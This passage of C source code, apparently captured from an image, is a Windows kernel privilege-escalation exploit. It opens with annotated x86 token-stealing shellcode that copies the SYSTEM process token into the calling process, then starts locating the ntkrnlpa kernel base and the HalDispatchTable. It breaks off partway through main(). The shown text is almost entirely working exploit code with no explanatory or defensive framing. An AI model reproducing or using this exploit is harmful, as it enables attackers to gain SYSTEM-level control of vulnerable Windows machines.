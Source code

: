 ```c
	OUT PULONG Interval);

char shellcode[] = {
	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad
	"\x33\xc0"                      // xor eax,eax
	"\xc9"                          // leave
	"\xc3"                          // ret
};

int main()
{
	PVOID driversAddress[1024];
	DWORD cbNeeded;
	int cDrivers, i;
	int ntkrnlpaKernelBase;
	TCHAR driverName[1024];
	HMODULE ntkrnlpaUserBase;
	PVOID halDispatchTableAddress;
	PPayload payload = NULL;
	DWORD BytesReturned = 0;

	payload = (PPayload) HeapAlloc(GetProcessHeap(),
		HEAP_ZERO_MEMORY,
		sizeof(Payload));
	
	// find ntkrnlpa.exe kernel base
	if ( EnumDeviceDrivers(driversAddress, sizeof(driversAddress), &cbNeeded) && cbNeeded < sizeof(driversAddress) )
	{

		cDrivers = cbNeeded / sizeof(driversAddress[0]);

		for (i = 0; i < cDrivers; i++)
		{
			if ( GetDeviceDriverBaseName(driversAddress[i], driverName, 1024) )
			{
				char *lowerName = _strlwr(driverName);

				if ( (!strcmp(lowerName, "ntkrnl")) || ( (strstr(lowerName, "ntkrnl")) != NULL ) ) {

					ntkrnlpaKernelBase = i;
					break;
				}
				else {
					continue;
				}
			}
			else {
				printf("get device driver name failed\n");
```